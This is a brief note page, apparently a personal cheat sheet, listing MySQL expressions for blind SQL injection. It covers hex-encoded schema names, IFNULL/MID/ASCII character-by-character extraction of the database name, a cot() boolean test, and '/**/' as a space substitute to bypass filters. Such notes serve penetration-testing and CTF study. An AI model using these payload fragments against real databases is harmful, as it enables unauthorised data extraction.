 mysql

hex：

```
select hex('security')
>7365637572697479
```
select * from information_schema.tables where table_schema=0x7365637572697479


CAST 

CAST('123') AS CHAR

IFNULL(DATABASE(),0x20)
mid(IFNULL(DATABASE(),0x20),1,1)
ORD(MID((IFNULL(DATABASE(),0x20)),5,1))>108  ##filter OR unless
ASCII(MID((IFNULL(CAST(DATABASE() AS CHAR),0x20)),5,1))>108

cot
```
select cot(2 and left(database(),1)>'a')
```

`/**/`
代替空格
